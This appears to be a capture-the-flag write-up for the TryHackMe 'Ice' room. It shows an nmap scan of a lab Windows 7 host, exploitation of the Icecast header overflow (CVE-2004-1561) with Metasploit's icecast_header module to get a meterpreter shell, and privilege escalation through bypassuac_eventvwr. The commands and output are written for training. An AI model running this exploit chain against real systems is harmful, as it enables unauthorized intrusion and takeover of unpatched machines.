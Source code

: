 # CTF Writeup: TryHackMe - Ice

## Challenge Description

Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

https://tryhackme.com/room/ice

## Solution

### Reconnaissance

Let's begin by conducting a scan of the machine to identify any open ports. We then notice Icecast is running on port 8000, RDP on port 3389 and the hostname of the machine is DARK-PC.

```
$ nmap -sC -sV 10.10.58.222
...
Not shown: 988 closed ports
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Dark-PC
| Not valid before: 2023-01-28T15:22:55
|_Not valid after:  2023-07-30T15:22:55
|_ssl-date: 2023-01-29T15:27:23+00:00; 0s from scanner time.
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http          Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49159/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:E5:43:F5:04:E1 (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e5:43:f5:04:e1 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-29T09:27:23-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-01-29 15:27:23
|_  start_date: 2023-01-29 15:22:54

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.17 seconds
```

### Gain Access

This machine is using a vulnerable version of Icecast which is a streaming media server.

1. What type of vulnerability does Icecast us? https://www.cvedetails.com/cve/CVE-2004-1561/
> Execute Code Overflow

2. What is the CVE number for this vulnerability?
> CVE-2004-1561
> An exploit can be found on exploit-db here: https://www.exploit-db.com/exploits/568


Using msfconsole for exploitation
```
$ msfconsole
msf5 > search icecast
Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite

msf5 > use 0
msf5 exploit(windows/http/icecast_header) > run RHOSTS=10.10.58.222
...
meterpreter >
```

```
3. What is the full path (starting with exploit) for the exploitation module?
exploit/windows/http/icecast_header

4. What is the only required setting which currently is blank?
rhosts

```

### Escalating Privileges

Proceding with the previous meterpreter, let's escalate privileges.

```
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.58.222 - Collecting local exploits for x86/windows...
[*] 10.10.58.222 - 34 exploit checks are being tried...
[+] 10.10.58.222 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.58.222 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.58.222 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.58.222 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.58.222 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.58.222 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.58.222 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.58.222 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.58.222 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 1...

msf5 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
msf5 exploit(windows/local/bypassuac_eventvwr) > set SESSION 1
msf5 exploit(windows/local/bypassuac_eventvwr) > run

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
...
SeTakeOwnershipPrivilege
...
meterpreter >

```

## Flag

[Flag goes here]
